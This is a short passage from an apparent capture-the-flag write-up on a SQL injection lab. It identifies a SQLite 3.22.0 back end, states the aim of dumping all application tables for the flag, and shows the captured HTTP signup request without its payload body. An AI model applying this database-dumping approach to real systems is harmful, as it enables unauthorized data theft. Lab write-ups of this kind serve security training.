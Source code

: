 ![Pasted image 20210806092047](Pasted%20image%2020210806092047.png)

The target database is SQLite 3.22.0.

Since the goal is to dump a database for the flag, dump all non-SQLite system tables.

```http
POST /challenge4/signup HTTP/1.1
Host: 10.10.223.194:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 125
Origin: http://10.10.223.194:5000
DNT: 1
Connection: close
Referer: http://10.10.223.194:5000/challenge4/signup
Cookie: session=eyJtYWluYXBwX3F1ZXJ5IjpmYWxzZX0.YQ0v6g.qh-mXSAfN1fNPh022bWlNfHkV3c
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
```